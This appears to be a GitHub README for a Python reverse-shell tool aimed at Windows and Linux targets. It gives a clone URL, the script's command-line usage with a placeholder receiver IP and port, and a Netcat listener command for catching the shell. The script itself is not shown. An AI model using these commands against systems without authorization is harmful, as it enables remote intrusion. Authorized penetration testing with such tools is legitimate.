 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- A target machine to run the reverse shell on


### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
2. Change into the project directory:
   ```bash
   cd strike

## Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER

# How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace RECEIVER_IP with the IP address of the machine you want to receive shell.
- Replace PORT_NUMBER with the port number to connect to on the machine you wan to receive shell.
- The script will create a reverse shell connection to the specified IP and port.

## IMPORTANT

You want to start listening to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp PORT_NUMBER
